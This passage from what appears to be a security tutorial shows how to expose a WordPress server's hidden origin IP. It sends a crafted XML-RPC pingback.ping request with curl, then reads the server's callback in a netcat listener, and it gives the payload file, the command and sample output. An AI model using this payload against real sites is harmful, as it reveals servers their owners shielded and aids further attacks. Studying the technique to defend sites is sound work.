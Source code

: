 ```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://wordpress.nem.ec/2020/01/22/hello-world/</string>
  </value>
 </param>
</params>
</methodCall>
```

Now run the following command. `pingback.xml` is the relative path to the file
you just created and `https://wordpress.nem.ec/xmlrpc.php` should be replaced
with the pingback URL from the start of this section.

    curl -X POST -d @pingback.xml https://wordpress.nem.ec/xmlrpc.php

After executing the command, wait some time for data to appear in your netcat
session. It will look something like the following:

```
listening on [any] 80 ...
64.225.37.249: inverse host lookup failed: Unknown host
connect to [10.0.0.2] from (UNKNOWN) [64.225.37.249] 47647
GET /some/site HTTP/1.1
Host: 10.0.0.1
User-Agent: WordPress/5.3.2; https://wordpress.nem.ec; verifying pingback from 10.0.0.1
Accept: */*
Accept-Encoding: deflate, gzip
Referer: http://10.0.0.1/hello/world
X-Pingback-Forwarded-For: 10.0.0.1
Connection: close
```

If you don't receive any output from the netcat command, it could be caused by
any number of reasons and, unfortunately, the target Wordpress server will not
tell you exactly why it failed. Check that you can connect with your netcat session
on your public IP (e.g. `curl http://my.public.ip`) and that you do not have any
OS firewall blocking access.

Check the second line of the netcat output to get the IP address of the Wordpress server.
As before, the hidden value is `64.225.37.249`.


Verifying the IP Address
========================

Now that you have an IP address, how can you check that it really belongs to your target?
One simple way is to make a cURL request and fake the Host header to pretend like it's
coming from the server's hostname.
